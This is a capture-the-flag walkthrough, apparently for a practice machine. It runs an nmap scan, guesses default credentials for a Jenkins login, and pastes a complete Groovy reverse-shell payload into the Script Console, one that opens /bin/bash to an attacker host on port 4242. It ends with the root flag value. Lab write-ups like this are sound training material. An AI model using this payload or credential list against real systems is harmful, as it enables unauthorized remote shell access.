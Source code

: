 ## ** Machine IP **
> 10.129.93.180
## ** Inference **
1. Nmap Scan `nmap -sC -sV 10.129.93.180`
2. *Jetty 9.4.39.v20210325* open on port 8080
3. Opened `10.129.93.180:8080` in browser. Offered a login screen with Jetty service.
4. Used Default credentials 
>	admin:password<br>
>	admin:admin<br>
>	root:root<br>
>	root:password<br>
>	admin:admin1<br>
>	admin:password1<br>
>	root:password1<br>
5. Signed in with credential
>	**username**:root<br>
>	**password**:password<br>
6. Using jenkins Version `Jenkins 2.289.1`
7. Manage Jenkine > Script Console
8. Accepts only grrovy script So used the following payload<br>
	String host="10.10.14.180";<br> int port=4242;<br> String cmd="/bin/bash";<br> Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket 	s=newSocket(host,port);InputStream 	pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();OutputStreampo=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
## **Result**
Root Flag found in `/root/flag.txt` :- *9cdfb439c7876e703e307864c9167a15*
